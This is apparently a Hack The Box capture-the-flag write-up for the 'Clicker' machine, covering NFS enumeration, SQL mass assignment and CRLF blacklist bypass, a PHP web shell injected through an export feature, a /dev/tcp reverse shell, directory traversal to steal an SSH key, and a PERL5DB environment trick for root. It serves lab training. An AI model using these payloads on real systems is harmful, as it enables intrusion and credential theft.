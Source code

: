 # Clicker

## Enumeration

![Homepage](/HTB/Clicker/Screenshots/2023-12-19-10-58-00.png)

```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

### Nmap

![Nmap](/HTB/Clicker/Screenshots/2023-12-19-11-27-30.png)

```rpcbind reveals that nfs is available and supporting older versions.```

### RPC

![rpcinfo](/HTB/Clicker/Screenshots/2023-12-19-11-13-47.png)

```Knowing this, mount the share```

### NFS

![showmounts](/HTB/Clicker/Screenshots/2023-12-19-11-16-36.png)

```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```

![mnt/backups contents](/HTB/Clicker/Screenshots/2023-12-19-11-35-38.png)

```Move and unzip the contents of the backups and unmount as it's served it's purpose.```

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

```We now posess the source code which will help in finding any vulnerabilities.```

## Foothold

![role](/HTB/Clicker/Screenshots/2023-12-19-11-42-05.png)

```We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:```

![authentication.php](/HTB/Clicker/Screenshots/2023-12-19-11-44-47.png)

```To access `admin.php` we'll need to set our role to admin```

![admin.php](/HTB/Clicker/Screenshots/2023-12-19-11-45-44.png)


```Theres two ways to achieve that:```
- SQL mass assignment
- CRLF vulnerability


[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment

    role%3d'Admin',clicks=2000

```By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.```

![mass assign](/HTB/Clicker/Screenshots/2023-12-19-11-54-07.png)

### CRLF vulnerability 

```By adding %0a to `role` we can bypass the blacklist```

![CRLF](/HTB/Clicker/Screenshots/2023-12-19-11-49-12.png)

```Now if we relog we should be able to access the admin panel```

![Administration](/HTB/Clicker/Screenshots/2023-12-19-11-59-17.png)

![Administration content](/HTB/Clicker/Screenshots/2023-12-19-11-59-50.png)

### Exports

![exports](/HTB/Clicker/Screenshots/2023-12-19-12-02-25.png)

![php extension specification in data](/HTB/Clicker/Screenshots/2023-12-19-12-33-07.png)

![exporting php extension](/HTB/Clicker/Screenshots/2023-12-19-12-07-50.png)

```As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.```

![php payload](/HTB/Clicker/Screenshots/2023-12-19-12-23-08.png)

    <?='$_GET[0]';?>

```This is the shortest php payload, it'll work for our needs, however when referring to the custom exploit we'll use a different one as some of the special symbols collide and are not playing nice```

![command execution](/HTB/Clicker/Screenshots/2023-12-19-12-23-28.png)

```Now that we've tested that it's possible, time to get a reverseshell```

### Reverse Shell

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

```send the payload:```

```bash
echo <your base64 string> | base64 -d | bash
```

![revshell](/HTB/Clicker/Screenshots/2023-12-19-12-27-25.png)

## Escalation to jack user

![whoami](/HTB/Clicker/Screenshots/2023-12-19-13-00-40.png)

```bash
find / -type f -perm /u=s 2>dev/null
```

![execute_query u=s](/HTB/Clicker/Screenshots/2023-12-19-13-01-48.png)

![perms for /opt/manage](/HTB/Clicker/Screenshots/2023-12-19-13-02-34.png)

![Readme.txt](/HTB/Clicker/Screenshots/2023-12-19-13-02-55.png)

```By running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.```

![Strace for execute_query 1](/HTB/Clicker/Screenshots/2023-12-19-13-04-31.png)

```we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.```

```bash
./execute_query 5 create.sql
```

![arbitrary file exec](/HTB/Clicker/Screenshots/2023-12-19-13-10-24.png)

```It executes the same file as option 1 would. Let's try directory traversal.```

![/etc/passwd/](/HTB/Clicker/Screenshots/2023-12-19-13-11-43.png)

```Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.```

![id_rsa](/HTB/Clicker/Screenshots/2023-12-19-13-13-51.png)

```We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. ```

```bash
ssh jack@10.10.11.232 -i id_rsa
```

![Jack](/HTB/Clicker/Screenshots/2023-12-19-13-17-21.png)

#### Flag

![User flag](/HTB/Clicker/Screenshots/2023-12-19-13-19-41.png)

## Escalation to root

```Check for sudo -l to list all sudo priviledges```

![sudo -l](/HTB/Clicker/Screenshots/2023-12-19-13-20-31.png)

![monitor.sh](/HTB/Clicker/Screenshots/2023-12-19-13-26-41.png)

```We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable. So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:```

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

```Essentially we're only interested in the payload:```

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

```Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.```

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

```It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.```

![euid=root](/HTB/Clicker/Screenshots/2023-12-19-13-41-23.png)

#### Flag

![rootflag](/HTB/Clicker/Screenshots/2023-12-19-13-42-16.png)

![Pwnd](/HTB/Clicker/Screenshots/2023-12-19-13-45-08.png)
